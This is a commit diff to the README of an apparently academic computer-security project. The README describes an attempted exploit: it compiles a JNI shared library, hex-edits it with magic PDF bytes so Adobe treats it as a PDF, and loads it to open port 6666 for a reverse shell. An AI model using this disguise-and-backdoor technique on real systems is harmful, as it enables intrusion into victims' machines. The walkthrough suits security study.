

Before and after one commit to Chrono-Coder/Computer-Security-Project, a Markdown page: README.md, the part around the change. Shown: that part at 88% size. Drawn GitHub-style; pictures changed too: images/hex.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -26,13 +26,22 @@ JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {
     return JNI_VERSION_1_6;
 }
 ```
+
 ### Step 2.
 
 Compile C code into shared library binary code. This is the file we will send to Adobe in attempt to exploit it.
 
 ```bash
-gcc -shared -fPIC -I/usr/lib/jvm/default-java/include -I/usr/lib/jvm/default-java/include/linux -o libopen_cv.so code.c
+gcc -shared -fPIC -I/usr/lib/jvm/default-java/include -I/usr/lib/jvm/default-java/include/linux -o libs/libopen_cv.so code.c
 ```
+
+Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file.
+
+```bash
+hexedit libopen_cv.so
+```
+
+![Hex Editor](images/hex.png)
 
 ### Step 3.
 
@@ -43,15 +52,14 @@ public class Test {
     static {
         System.loadLibrary("opencv_info");
     }
-
     public static native void JNI_OnLoad();
 
     public static void main(String[] args) {
         System.out.print("RUNNING");
-        //JNI_OnLoad();
     }
 }
 ```
+
 ### Step 4.
 
 We compiled the Java code using the following command.
@@ -59,6 +67,7 @@ We compiled the Java code using the following command.
 ```bash
 javac Test.java
 ```
+
 ### Step 5.
 
 Run the Java program which will call the .so and thus open a port on 6666 on the device.
@@ -69,7 +78,7 @@ java -Djava.library.path=/home/kali/Desktop/code/libs Test
 
 ### Step 6.
 
-To check if successfull (besides an error log), we used a netstat command. If you see the port 6666 is open that means the shared library file was executed and thus you can run a reverse shell.
+To check if successful (besides an error log), we used a netstat command. If you see the port 6666 is open that means the shared library file was executed and thus you can run a reverse shell.
 
 ```bash
 netstat -tuln
````
